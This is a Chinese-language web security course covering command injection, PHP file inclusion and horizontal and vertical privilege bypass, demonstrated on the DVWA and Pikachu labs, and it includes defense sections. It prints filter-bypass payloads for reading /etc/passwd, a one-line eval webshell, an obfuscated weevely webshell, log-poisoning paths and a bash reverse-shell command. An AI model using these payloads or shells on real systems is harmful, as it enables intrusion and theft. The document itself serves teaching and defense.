注入命令过程中，常常需要使用一些系统命令的拼接方式，以达到更多复杂功能 的实现，尤其是存在限制的情况，运用好可用来绕过限制。
常用拼接符号如下。
- &&
命令格式：cmd1 && cmd2，cmd1 执行成功后才会执行 cmd2。
- |
命令格式：cmd1 | cmd2，cmd1 的执行结果传递给 cmd2 去执行。
- ||
命令格式：cmd1 || cmd2，cmd1 执行失败后就执行 cmd2。
- &
命令格式：cmd1 & cmd2，& 用于分隔多个命令，命令按顺序 cmd1、cmd2 执行。
- ;
命令格式：cmd1 ; cmd2，分号用于分隔多个命令去执行，命令按顺序 cmd1、cmd2 执行。
- ``
命令格式：=cmd=，注意这里是对反斜号，代表命令执行结果的输出，即命令替换。
- $()
命令格式：$(cmd)，用于命令替换，适用于 cmd 中需要使用多个拼接符。
- ()
命令格式：(cmd1;cmd2)，合并多个命令，重新开启子 shell 来执行命令。
- {}
命令格式：{cmd,arg}，Linux bash 下用于合并多个命令及参数，在当前 shell 执行。
2.靶场演练
以 DVWA 靶场的命令注入题目为例，漏洞代码如下。
<?php if( isset( $_POST[ 'Submit' ] ) ) { // Get input $target = $_REQUEST[ 'ip' ]; // Determine OS and execute the ping command. if( stristr( php_uname( 's' ), 'Windows NT' ) ) { // Windows $cmd = shell_exec( 'ping ' . $target ); } else { // *nix $cmd = shell_exec( 'ping -c 4 ' . $target ); } // Feedback for the end user echo "<pre>{$cmd}</pre>"; } ?>
它在获取用户输入的 IP 地址后直接传递给 shell_exec函数去执行，如果我们 利用前面介绍的命令拼接方式去注入其他命令就可以被执行，比如通过分号输入 以下命令：
127.0.0.1; id
提交后可以看到 id 命令的执行结果，说明命令注入成功。

图 1 利用漏洞执行命令 id
其他连接符号的利用，你也可以尝试下。
此处是有回显内容的，若无回显就需要使用一些盲注技巧，比如 sleep延时命令：
127.0.0.1 && sleep 5
也可使用输出重定向符号“>”与“>>”，输出内容到指定文件，然后访问对应文件是否存在，比如：
127.0.0.1; echo "test" > test.txt (由于靶场环境限制无法在网站根目录创建文件，所以此用例不会成功) 127.0.0.1; echo 'test'>/app/hackable/uploads/text.txt 提交上述用例后，访问http://127.0.0.1/hackable/uploads/text.txt 即可看到输出成功
执行效果如图 2 所示。
图 2 注入命令写文件成功
还有访问自己的服务器，看日志判断是否命令执行成功，比较便捷的方式就是使 用 BurpSuit Collaborator ，在诸多盲注场景下它都适用。
3.常用的限制绕过技巧
（1）绕过单命令限制
命令注入点有时是某一执行程序的参数，比如 ls 命令，注入再多的参数也难达 到控制服务器的目的，此时我们就需要采用多命令注入方式，你可以回头再看下 刚刚讲的命令拼接技巧中介绍的各种方法。
（2）空格绕过
有时会遇到对输入命令参数进行空格过滤，比如输入命令：
cat /etc/passwd;
就会变成：
cat/etc/passwd;
导致执行失败。
你可以尝试以下几种方法去绕过。
- IFS 分隔符
IFS（Internal Field Seperator，内部域分隔符）是 shell下的特殊环境变量， 可以是空格、Tab、换行符或者其他自定义符号，如图 3 利用IFS 分隔符成功读 取到敏感文件。
cat$IFS/etc/passwd
图 3 利用 IFS 分隔符绕过空格限制
- URL 编码
可以在请求参数中用 ％20、+、%09(tab) 等方式来绕过：
cat%20/etc/passwd cat+/etc/passwd cat%09/etc/passwd
- {cmd,arg}
在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：
{cat,etc/passwd}
这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。
（3）黑名单绕过
绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。
- shell 特殊变量
先看下 shell 中的一些特殊变量：
$n 传递给脚本或函数的参数。 n 是一个数字，表示第几个参数，例如第一个参数是 $1 $* 传递给脚本的所有参数，全部参数合为一个字符串 $@ 传递给脚本的所有参数，每个参数为独立字符串 注意：$@ $* 只在被双引号包起来的时候才会有差异
比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：
ca$1t /etc/passwd cat$*t /etc/passwd ca$@t /etc/passwd
- 编码绕过
直接将命令字符串转换成 URL 编码、hex 码、base 64等编码，再转换回来执行：
# Base64编码命令“cat /etc/passwd” echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash # Hex编码命令“cat /etc/passwd” echo "636174202f6574632f706173737764"|xxd -r -p|bash $(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64") # URL编码 cat%20%2Fetc%2Fpasswd
- 变量自定义
将黑名单内容拆分到不同的变量，再拼接起来执行。
a=c;b=at;c="/etc/passwd";$a$b $c
- 反斜杠
反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。
c\a\t /et\c/pas\s\wd
- 单双引号
单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。
c"a"t /et''c/p'a'sswd
挖掘命令注入漏洞
1.代码审计
代码审计思路就是追踪污点（用户可控数据，如 Get、Post数据等等）的传播， 看是否未经限制就传递给命令执行函数（system、exec、shell_ exec 等等）。
2.黑盒扫描
通过漏洞扫描器来检测漏洞，对用户输入参数去构造一些命令，然后检测返回结 果，最常用的无害命令就是 sleep 函数，看延时情况来判断是否执行成功，无论 执行结果有无回显，均可适用。
一些常用的 Linux 平台的命令注入测试用例如下：
<!--#exec%20cmd="/bin/cat%20/etc/passwd"-->
<!--#exec%20cmd="/bin/cat%20/etc/shadow"-->
<!--#exec%20cmd="/usr/bin/id;-->
<!--#exec%20cmd="/usr/bin/id;-->
/index.html|id|
;id;
;id
;netstat -a;
;system('cat%20/etc/passwd')
;id;
|id
|/usr/bin/id
|id|
|/usr/bin/id|
||/usr/bin/id|
|id;
||/usr/bin/id;
;id|
;|/usr/bin/id|
……
Windows 平台以及其他更多的测试用例可参考 command-injection-payload-list。
漏洞防御
1.代码层面的漏洞规避
尽量不用系统命令执行函数 ，这是最简单粗暴的方式，但也是最有效的方式。 很多方式其实是可以通过一些语言内置 API 完成，这些攻击者是无法控制 API 去执行其他预料之外的命令，除非 API存在漏洞。
如果一定要使用命令执行函数，就尽量不要将外部可控数据作为命令行参数。
如果要将用户可控数据传递给命令执行函数，那首先推荐 白名单方式 ，然后
再是考虑 转义过滤 ，以及 数据格式校验 。比如靶场题目是输入IP 地址，
那你可以使用正则做 IP 格式的检测，不符合就拒绝请求。总之，尽可能限制可
输入参数的范围，比如仅允许数字或者数字字母等方式。
转义过滤：可以使用 escapeshellcmd 函数对整个命令字符串作转义，它会在以 下字符之前插入反斜线：&#;`|*?~<>^()[]{}$, \x0A 和\xFF，但即使如此，攻 击者还是可以传入任意数量的参数，此时可以使用escapeshellarg() 函数对单 个参数进行转义。
2.命令执行监控与阻断
基于命令执行函数监控，比如 PHP 环境下对 system 函数进行 hook，Java环境 下的 java.lang.Runtime.exec()函数，当漏洞触发时可告警出来，并支持阻断 功能，这就是前面课程多次提到过的RASP 方案，准确率理论上可达到 100％。
推荐百度开源的 OpenRASP 产品，下图是其拦截 JSP 命令执行漏洞的事件截图。
图 4 OpenRASP 拦截命令执行
总结
本课主要以 PHP 环境下的“命令注入”场景作为演示，介绍了命令注入漏洞的成 因，以及常见的利用技巧，特别总结了些常见的限制绕过方法，最后同样讲解漏 洞挖掘与防御的主流方式。
命令注入原理和利用相对比较简单，但在真实业务场景中，用户可控变量的传递 往往比较复杂，并不一定那么容易发现和构造利用，往往是黑盒扫描与白盒代码 审计相结合去发现，业务上线后再结合 RASP 等安全系统去监控和拦截。
WAF在命令注入检测中有作用相对比较有限，因为有些命令就是简单字母字符串， 比如 id。拦截此参数很大概率会连正常请求都阻断点，会影响正常业务功能， 所以很多时候都是设法从程序运行环境、系统底层去做检测与拦截。
文件包含：不受限地引入文件可能导致网站被入侵
从这一讲开始，我将会向你介绍 PHP 中常见的“文件包含漏洞”，它可以造成 任意代码执行、控制服务器，危害也很大。它本质上如同 XSS 一样，都是代码 注入导致的漏洞，只是它们注入代码的语言有所差异。
很多语言支持使用包含文件，这样允许开发者把可重复使用的代码存入单个文件 中，在未来需要使用时，将它包含在其他代码文件中即可使用。
如果是像 C/C++ 这种编译语言，即使可以包含任意文件，若没有调用其中函数 也不会有什么影响；但是像 PHP 这种解析型语言，文件放在服务器上被访问就 可能被执行了，PHP 中常用的文件包含函数有：
- include()
- include_once()
- require()
- require_once()
当上述函数参数被外部任意控制时，就可以引用包含恶意代码的文件，导致执行 恶意代码，这就是漏洞产生的原因。比如如下漏洞代码，由外部的 GET 参数 filename 控制包含的文件路径，就导致文件包含漏洞的产生。
<?php
$filename = $_GET['filename'];
include($filename);
?>
根据所包含的文件位置，可以分为 远程文件包含 和 本地文件包含 。
远程文件包含
若所包含的文件位于远程服务器，那么它就属于远程文件包含，这种情况需要服 务端的php.ini 支持以下配置：
- allow_url_fopen = On（允许打开远程文件）
- allow_url_include = On（允许包含远程文件，在 PHP 5.2 之后默认关闭）
以 Pikachu 靶场中的“File Inclusion(remote)”题目为例，先来看题目界面：
图 1 Pikachu File Inclusion(remote)
关键的漏洞代码如下：
if(isset($_GET['submit']) && $_GET['filename']!=null){
$filename=$_GET['filename'];
include "$filename";//变量传进来直接包含,没做任何的安全限制
}
给 GET 参数 filename 传递个远程 PHP文件地址即可包含进去，造成代码执行。 我已经在另一台机器上存放 phpinfo.php 执行 phpinfo() 函数，地址是 <http://127.0.0.1/phpinfo.php> ，phpinfo.php代码如下：
<?php phpinfo(); ?>
此处我使用 Trmper Chrome 去抓包，然后在题目上的下拉菜单中选一个，点“提 交”：
图 2 用 Tamper Chrome 抓包
得到 GET 请求地址与参数，可以看出用于包含文件的参数 filename 被设置为 "include/file3.php"：
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=include%2Ffile3.php&submit=%E6%8F%90%E4%BA%A4
修改 filename 参数为 http://www.1491.com.tw/phpinfo.php ，该 phpinfo.php 就执行 phpinfo() 函数，访问如下 URL：
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/phpinfo.php&submit=%E6%8F%90%E4%BA%A4
phpinfo 执行成功了：
图 3 远程文件包含执行 phpinfo
接入来利用就简单了，我们直接远程包含一个创建一句话木马的 txt 文件，不 用 PHP 后缀是为了避免在自己服务器被执行。
为了演示，我在 http://127.0.0.1/shell.txt 创建文件（如果你没有自己的 服务器，去 github 上存储一个木马文件也是可行的），写入如下代码，用于生 成一句话木马：
<?php
$a = "<?php eval(\$_POST['Cknife'])?>";
file_put_contents("a.php",$a);
?>
然后访问如下 URL 就会在服务端生成一句话木马文件 a.php：
http://127.0.0.1:8080/vul/fileinclude/fi_remote.php?filename=http://127.0.0.1/shell.txt&submit=%E6%8F%90%E4%BA%A4
成功生成一句话木马文件 a.php：
sudo docker exec -it 7286434c6e88 /bin/bash root@7286434c6e88:/# cat /var/www/html/a.php <?php eval($_POST['Cknife'])?>
与《13 |文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方 法一样，你可以用Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以 直接控制服务器了，此处不再赘述。
前面介绍的一句话木马比较容易被检测到，个人喜欢使用 weevely3 ，因为它支 持变形的一句话木马：
$ python3 weevely.py
[+] weevely 4.0.1
[!] Error: the following arguments are required: path
[+] Run terminal or command on the target
weevely <URL> <password> [cmd]
[+] Recover an existing session
weevely session <path> [cmd]
[+] Generate new agent
weevely generate <password> <path>
$ python3 weevely.py generate 'test' ./shell.php
Generated './shell.php' with password 'test' of 761 byte size.
看下生成的 shell.php 代码，可以看到其内容都是经过混淆的，肉眼是很难直 接看懂的，有助于逃过一些木马的查杀。
$ cat shell.php <?php $S='!("/$^!kh(.+^!)^!$kf/",@file^!_g^!et_content^!s("p^!hp^!://input"),$m^!)=^!=1) {@ob_star^!t^!();@ev'; $p='$^!k^!="098f6bcd";$kh="4^!62^!1d373c^!ad^!e";$kf^!="4e832627b^!4f6";$p="q^!BSPYX^!xS^!wBm8fbHZ";f^!u'; $x='=0;($^!j<$c&&$i<$^!l);$j++^!,$i^!++){$^!o.=$t{^!$i^!}^$k{^!$^!j};}}return $o;}if^! (^!@preg_match^'; $Y='^!al(^!@gzunc^!omp^!res^!s(@x(@base^!64_d^!ecode($m[^!1]),$k)));$^!o=@o^!b_get_conte^!nts()^!;@ob_e'; $k=str_replace('ha','','hacreathae_hafhaunhahaction'); $m='nc^!tio^!n x($t^!,$k^!)^!{$c=strlen($k)^!;$l=strlen(^!$t);$o=^!"";f^!^!or($i=^!0;$^!i<$l;^!){for($j'; $h='^!n^!d_clean();^!$^!r=@ba^!s^!e64^!_encode(@x(@gzcompre^!ss^!($o),^!$k));prin^!^!t("$p$kh$r$kf");}'; $E=str_replace('^!','',$p.$m.$x.$S.$Y.$h); $o=$k('',$E);$o(); ?>
但是工具一旦出名后，就容易被查杀，需要自己去做一些去特征化的免杀的处理， 这不在本课程的讨论范围，有兴趣的话，你可以网上搜索关于木马免杀的文章。
之后 weevely.py 客户端直接连接就可以获得服务器的 shell 权限。
$ python3 weevely.py http://127.0.0.1:8080/shell.php test [+] weevely 4.0.1 [+] Target: www-data@7286434c6e88:/app [+] Session: /home/admin/.weevely/sessions/127.0.0.1/shell_1.session [+] Shell: System shell [+] Browse the filesystem or execute commands starts the connection [+] to the target. Type :help for more information. weevely> ls a.php assets Dockerfile footer.php header.php inc index.php install.php LICENSE pkxss README.md shell.php shell.txt test vul wiki www-data@7286434c6e88:/app $ id uid=1000(www-data) gid=50(staff) groups=50(staff)
本地文件包含
如果加载的包含文件不允许从外部服务器获取，只能加载本地文件，那么这就属 于本地文件包含。正常情况下，本地文件并不会包含一句话木马等恶意文件（需 要使用其他更高级的利用技巧，具体见下文），但有时可以用来读取服务器的敏 感文件，如果对方有回显的话。
比如 Pikachu 靶场的“File Inclusion(local)”题目，我们可以尝试读取 /etc/passwd 文件，构造如下请求：
http://127.0.0.1:8080/vul/fileinclude/fi_local.php?filename=../../../../../../../../etc/passwd&submit=%E6%8F%90%E4%BA%A4
成功读取到 /etc/passwd 文件。
图 4 利用漏洞读取 /etc/passwd 文件
漏洞利用技巧
随着PHP 5.2 之后默认关闭 allow_url_include 配置，也降低了远程文件包含 漏洞的出现。但是本地文件包含漏洞的利用方式，很多也适用于远程文件包含漏 洞，下面会介绍一些相对通用的利用技巧。
此处漏洞利用的目标仍然是为了获取服务器的 shell 权限，就需要设法在服务 器上写入文件，内容自然是一句话等恶意代码内容。但是，我们手上又没有写任 意文件的漏洞可利用，只能看看服务器上哪些文件会写入外部用户可控数据，或 者其他可执行 PHP 代码的方式。
总结起来，主要有下面几种利用方式。
1.写日志文件
如果服务器开启访问日志记录的话，那么用户的请求数据就会被记录在日志文件， 若我们在地址上包含一句话木马的话，也同样会被记录进去。如果将一句话写在 URL 中常常会被 URL 编码存储，因此需要写 User-Agent 中，其他 HTTP头默认 不会被记录：
图 5 注入一句话木马的访问日志
写入一句话木马之后，利用方式前面已经多次讲过，此处不再赘述。
常见的日志文件路径有：
/var/log/apache/access_log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/www/logs/access_log
/var/log/access_log
……
除此之外，还有些 SSH、FTP、邮件等可产生日志的地方都可以自由发挥。
2.写系统环境文件
/proc/self/environ 包含一些系统环境变量，比如HTTP_USER_AGENT、 HTTP_REFERER 等等，但需要 root 权限。如果当前的 web 应用无法写 /proc/self/environ 文件，就无法利用此方法，刚好我安装的 Pikachu 靶场就 没有 root 权限。
若拥有写 /proc/self/environ 的权限，那么可以在 User Agent中写入创建一 句话木马的 PHP 代码，然后再利用漏洞包含 /proc/self/environ 文件实现代 码的执行，整个过程与写日志文件的方式类似。
3.写 Session 文件
PHP 中的 Session 文件用于存储 Session 数据，它是根据 PHPSESSID来命名文 件存储，它常见下面几个路径：
- /var/lib/php/sessions/sess_{PHPSESSID}
- /var/lib/php/sess_{PHPSESSID}
- /tmp/sess_{PHPSESSID}
- /tmp/sessions/sess_{PHPSESSID}
PHPSESSID 存放在 Cookie 中：
图 6 PHPSESSID
在 Pikachu 靶场中的对应 Session 文件为：
/var/lib/php/sessions/sess_v2lvugriupo8qm9r8c7ot7lol2
不过它是空文件，因为它没有写 Session 的行为。
但如果有用户数据存储到 Session 的行为，比如代码：
<?php session_start(); $ctfs=$_GET['data']; $_SESSION["username"]=$data; ?>
就可以通过 GET 参数 data 写入要执行的 PHP 代码，然后利用漏洞包含对应的 Session 文件就可以实现代码执行。这种利用方式不是那么通用，得多尝试才知 道如何写数据到 Session 文件，甚至可能一直找不到。
4.利用上传文件
如果有上传文件的地址，并且可以知道上传路径，比如上传头像的位置，可以上 传个写一句话木马的 jpg 文件，然后利用文件包含漏洞去执行。
5.利用 PHP 伪协议
PHP 拥有许多伪协议，在远程和本地文件包含中都可以使用，我做个表总结下：
此处我直接利用 data:// 执行代码，这比远程文件包含中利用方式便捷太多了， 比如下面直接系统命令的示例。
图 7 利用 data:// 伪协议执行系统命令
挖掘文件包含漏洞
1.动态检测思路
挖掘文件包含漏洞的方式与测试漏洞的利用思路是一样的，分为本地和远程两种情况。
- 远程文件包含漏洞检测
（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求， 此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有 可能存在远程请求文件，同时也可能出现 SSRF 漏洞。
（2）如果第 1 步失败，尝试提交一个不存在的 IP地址，并确认服务器尝试连 接此 IP 时是否会出现超时。
（3）若第 1 步确认访问成功或者第 2步确认请求超时，那么按前面介绍的利用 方法，尝试利用远程文件包含漏洞以作最终确认。
- 本地文件包含漏洞检测
（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径， 看应用程序是否有任何变化。
（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。
（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧 尝试对疑似本地文件包含漏洞进行测试验证。
上述检测思路既适用于手工测试，也适用于日常的自动化扫描。
2.静态检测思路
从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏 洞产生的相关source 与 sink，然后去追踪数据流从 source 传播到 sink过程 中是否有进行过滤，若没有则可能存在文件包含漏洞。
3.自动化检测与利用工具：Kadimus
提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 Kadimus，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件 包含漏洞进行测试利用。
介绍几个常用命令：
# 检测参数是否存在文件包含漏洞 ./kadimus -u localhost/?pg=contact -A my_user_agent # 读取文件内容 ./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg # 执行PHP代码 ./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input # 执行系统命令 ./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost # 反连shell ./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
漏洞防御
1.白名单限制
如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) { // This isn't the page we want! echo "ERROR: File not found!"; exit; }
2.设置 open_basedir
在 php.ini 中设置 open_basedir，可允许将 PHP打开的文件限制在指定的目录 中，可有效防止跨目录访问一些系统敏感文件。除了 php.ini 设置方法外，还可 在代码中设置：
ini_set('open_basedir', '指定目录');
3.关闭 allow_url_include
在 php.ini 中设置allow_url_include＝Off（默认关闭），避免远程文件包含， 同时减少一些伪协议的攻击，提高漏洞利用成本。
小结
本节课主要介绍了远程和本地两种类型的文件包含漏洞，教你如何挖掘与利用漏 洞，以及如何防御。
“文件包含”漏洞的产生主要是因为对用户输入数据没有进行有效过滤，导致允 许包含任意文件，进而执行恶意代码。所以在开发过程中，特别要注意使用文件 包含函数时，要对输入变量进行过滤限制，限制文件路径或者白名单。
希望你在学习本课程时，也能跟着动手检测与利用漏洞，操作一遍可以加深理解， 提高动手能力。毕竟本地文件包含漏洞的利用方式有点绕，可以先执行一个正常 且合理的操作，再利用漏洞实现代码执行。
下一节课开始，我将给你介绍越权漏洞，它在不同的业务场景下可以造成不同的 危害，因为它的特殊性，且比较偏业务逻辑处理上的问题，对它的检测与利用上 都造成的挑战。
逻辑漏洞：你的订单信息是如何泄露的
本节课开始介绍越权漏洞，这是一种偏业务逻辑处理缺陷的漏洞，不仅是 Web应 用，许多应用场景中会可能会遇到。
比如去年 12 月底，因北京健康宝网站存在越权漏洞，导致了“明星健康宝照片 泄露”事件，大量用户的个人信息被窃取，其中不乏明星的姓名、身份证、素颜 照等个人隐私信息。
图 1 记者获得的 1000 多位明星身份证号等信息
越权漏洞是很多应用中比较常见的漏洞类型，它是在授权逻辑上存在安全缺陷导 致的问题。在基于用户提供的输入对象直接访问，而未进行有效鉴权，导致一些 超出预期的操作行为，可能导致信息泄露或者提权，具体危害的大小取决于业务 场景，所以对越权漏洞的理解依赖于你对业务逻辑的理解深度。
当前国际上习惯将越权漏洞称为 IDOR（Insecure Direct Object Reference， 不安全的对象引用），在 HackerOne上公开的漏洞案例中，你以关键词 IDOR去 搜索，就可以找到不少真实的企业漏洞案例。
越权漏洞的分类
根据越权对象的差异，可以分析水平越权和垂直越权。
1.水平越权
假设用户 A 与用户 B 属于相同权限等级的用户，当用户 A 能够访问用户 B的 私有数据时，就称为水平越权。
以 Pikachu靶场的水平越权题目为例，下图是个登录界面，先点击下“点一下提 示”获得 3个账号及其密码：
lucy/123456 lili/123456 kobe/123456
图 2 水平越权题目
先用 lucy 的账号密码登录，点击“点击查看个人信息”，页面返回 lucy的个 人信息：
图 3 查看个人信息
同时用 Chrome Network 抓包，得到查看个人信息的 GET 请求地址和参数：
http://127.0.0.1:8080/vul/overpermission/op1/op1_mem.php?username=lucy&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF
前面已经密码验证过了，如果此时修改 username为其他账号，是否会获得其他 用户的个人信息呢？
下面修改 username 为 lili，发起请求：
http://127.0.0.1:8080/vul/overpermission/op1/op1_mem.php?username=lili&submit=点击查看个人信息
图 4 水平越权获取他人隐私信息
如上图所示，成功获取 lili的个人信息，说明这里存在越权漏洞，且属于水平 越权，因为从原定权限看，两者的权限等级是相同的。
你可以自己动手尝试下，看能否获取用户 kobe 的个人信息。
2.垂直越权
假设用户 A 是普通用户，用户 B 是管理员，当用户 A 能够访问用户 B 的私有 数据时，就称为垂直越权，又称为权限提升。
以 Pikachu 靶场的垂直越权题目为例，如下图所示，它也是个登录界面，先点击 下“点一下提示”获得2 个账号及其密码，其中 admin 是管理员账号：
admin/123456 pikachu/000000
图 5 Pikachu 靶场垂直越权题目
分别登录这 2 个账号看下有啥区别，下图是 admin登录后返回的信息，可以看 它拥有添加和删除用户的权限：
图 6 admin 管理界面
为方便后面测试，先记录添加与删除用户的请求数据。
先点击用户 vince 一行所在的“删除”按钮，删除用户 vince并抓包，得到请 求数据：
http://127.0.0.1:8080/vul/overpermission/op2/op2_admin.php?id=1
再点击“添加用户”，然后填写信息并点击“创建”：
图 7 添加用户
同时抓包获得请求数据：
POST http://127.0.0.1:8080/vul/overpermission/op2/op2_admin_edit.php username=test&password=test&sex=%E7%94%B7&phonenum=13666666666&email=test%40gmail.com&address=test&submit=%E5%88%9B%E5%BB%BA
我们再回头登录看下普通用户 pikachu 登录后的情况。
图 8 pikachu 的查看页面
试想下，普通用户 pikachu 如何才能拥有 admin一样的增加与删除用户的权限 呢？
在当前用户为 pikachu 的情况下，尝试删除用户，构造如下请求去删除 id=2的 用户：
http://127.0.0.1:8080/vul/overpermission/op2/op2_admin.php?id=2
访问后 302 跳转到登录界面，且并没有删除成功，说明这里没有越权漏洞。
图 9 构造删除用户的请求后，被重定向到登录界面
接下来看看添加用户的接口是否存在越权，在当前用户为 pikachu的情况下，构 建如下请求，添加一个用户名密码均为 hacker 的账号：
POST http://127.0.0.1:8080/vul/overpermission/op2/op2_admin_edit.php username=hacker&password=hacker&sex=%E7%94%B7&phonenum=13666666666&email=test%40gmail.com&address=test&submit=%E5%88%9B%E5%BB%B
这里我使用 HackBar 去构造 POST 请求，请求后会跳转到登录界面，重新用 pikachu 登录可以看到 hacker账号已经创建成功，说明我们已经越权成功，这 里属于提升权限，所以它属于垂直越权漏洞。
图 10 越权添加用户
越权漏洞的检测与利用
对于越权漏洞的检测与利用基本是一回事，因为它 偏于业务逻辑缺陷 ，当你检测
到的时候，基本等同于利用了，所以此处我把它们放在一块儿谈。
越权漏洞的检测与利用，长期以来大多是 以手工测试或半自动测试为主 ，因
为背后涉及一些业务逻辑功能的理解。对于自己公司内部业务做一些 定制化的
全自动检测 也是可行的， 比如掌握各类用户权限情况、涉及权限验证的敏感
操作请求等等情况 ，就可以尝试自动切换用户或删除登录态去执行敏感操作，
以此判断是否存在越权漏洞，再进行人工最终确认。
关于自动化扫描越权漏洞，推荐《越权扫描器碎碎念》一文。
下面我会介绍一些用来检测越权漏洞的常用工具，主要是一些 BurpSuite 插件， 都可以通过 BurpSuite 插件库 BApp Store 找到并安装，不过安装速度可能很慢， 甚至是多尝试几次才能安装成功。
这种情况可以尝试手工安装，先从BApp Store 官网下载插件的 bapp 文件到本 地，然后点击“Manual install …”选择下载的文件进行安装。
图 11 Manual install
下面介绍的这些工具都是刷漏洞奖励平台的利器，而且越权漏洞跟别人撞洞的概 率也会相对低些，有些奖金也不低。
1.Authz
Authz 的使用比较简单，在 BurpSuite 中将需要测试的请求发送到 Authz：
图 12 发送请求到 Authz
之后修改 Cookie值为其他用户，也可以是其他请求头信息，待准备测试的请求 收集完后，点击“Run”按钮即可。如果原响应内容长度、状态码和被修改请求 后的响应内容长度、状态码一致，则会被标为绿色，表示可能存在越权漏洞。
图 13 Authz
以普通用户 pikachu 直接访问绿色的URL，可以直接打开“添加用户”的界面进 行操作，这原来是管理员 admin 才拥有的权限，非常明显的越权行为。
图 14 普通用户越权访问“添加用户”管理页面
2.Autorize
Autorize 会对客户端发送的所有请求数据进行修改后重放，主要是将其他用户 的 Cookie 替换当前用户的 Cookie，或者其他授权验证相关的请求头。
Autorize 不用像 Authz 那样挑选请求并发送到插件，它可以直接配置要替换的 头信息，包括 Cookie 或者其他验证头信息，同时支持作用域过滤器，用来筛选 我们感兴趣的请求，避免收到大量的无用结果。
图 15 将其他用户的 Cookie 配置到 Autorize 进行替换
之后也是通过对比修改前后的响应结果来判断越权漏洞是否存在，若响应长度和 状态码一样，那就有可能存在越权漏洞。不过，有时候也需要人工难证下，有可 能一些页面本身就是允许任意用户访问的，需要分析下原设定的正常业务逻辑。
3.Auto Repeater
像 Authz 这种挑选请求并发送到插件的方式，测试效率会低一些，没有 Auto Repeater 高效。
Auto Repeater 功能相对 Autorize 更多更复杂一些，可以理解为是它的扩展版， 是基于自动请求重放与响应比对的方式进行检测的，它可以对更加具体的请求参 数进行测试，比如 PHPSESSID、SID、UID 等涉及用户身份的参数，支持正则匹 配与替换。
点击“Active AutoRepeater”开启，再添加替换规则。比如，我想替换 Cookie 中的 PHPSESSID 参数值，可以在 Replacements 中添加替换规则，然后在 Base Replacements 下为 cookie 配置一个规则，Type 选择“Match Cookie Name, Replace Value”Match 设置为 Cookie 名称 PHPSESSID，替换为权限较低的用 户的Cookie 值。
图 16 设置替换规则
在之后的捕获的请求中，若满足匹配条件就会自动修改数据并重新发送请求，用 户再根据响应结果是否有差异来判断是否存在越权漏洞，可以通过Logs 设置颜 色标记来区分，避免请求过多时，浪费过多时间排查验证。
图 17 Auto Repeater Logs
防御越权漏洞
由于越权漏洞涉及业务逻辑，靠 WAF、RASP那些安全系统是没有用的，更重要的 是在开发设计时提前考虑好权限控制与校验问题，可以尝试从以下几方面入手：
- 整体的权限调节 ：每次访问一个对象时，都要检查访问是否授权，特别是 对于安全很关键的对象。不要像前面的靶场题目那样，密码验证过后，后续 的敏感对象操作都不再验证，这样很容易导致漏洞。
- 最低权限原则 ：只授予执行操作所必需的最小访问权限，并且对于该访问 权只准许使用所需的最少时间。
- 前后端双重验证 ：在涉及敏感操作行为时，前端与后端同时对用户输入数 据进行权限校验，尤其是前端校验特别容易被改包绕过。
- 对于特别敏感的操作增设密码或安全问题等验证方式 ：比如修改密码要求 输入原密码。
小结
越权漏洞属于业务逻辑型漏洞 ， 常见一些业务功能场景，比如查看和修改
个人信息、账号登录等功能 。但它又不是一种固定漏洞场景的漏洞， 依赖于
业务处理逻辑，所以手工测试和半自动化测试是主要的检测手段 。当前的一些
全自动化检测越权，主要是替换用户凭证相关信息来重放请求，根据响应结果的
比对判断，思路与在越权漏洞的检测与利用一小节中介绍的工具检测原理类似。
越权漏洞常被分为水平越权和垂直越权两种 ，根据越权对象的权限等级来划
分的，同级的就是水平越权，由低向高权限越权就是垂直越权。你还记得开篇提
到的“明星健康宝照片被泄露”事件吗？你认为它属于水平越权还是垂直越权呢？
欢迎在评论区留言讨论。
内网渗透：内网的员工电脑是怎么被外部黑掉的？
前面我已经介绍了很多常见的 Web漏洞攻防相关的知识，在攻击者拿下外网服务 器之后，他们可能进一步向内网渗透。
企业往往对外网进行重兵把守，但对内网安全又常常被忽视 ，因为多数人觉
得反正身处内网，外面又访问不到，一些安全漏洞也不进行修复，防御系统也不
部署，内网安全问题可谓千疮百孔。
内网渗透主要是针对企业员工电脑为主，大多是 Windows 机器，虽然现在 Mac
办公也慢慢流行起来了，但 Windows 仍是主流，所以本课程主要以 针对Windows内网的渗透攻击与防御为背景，介绍一些常用的内网渗透手法，以及相
应的安全防御策略 。
内网靶场搭建
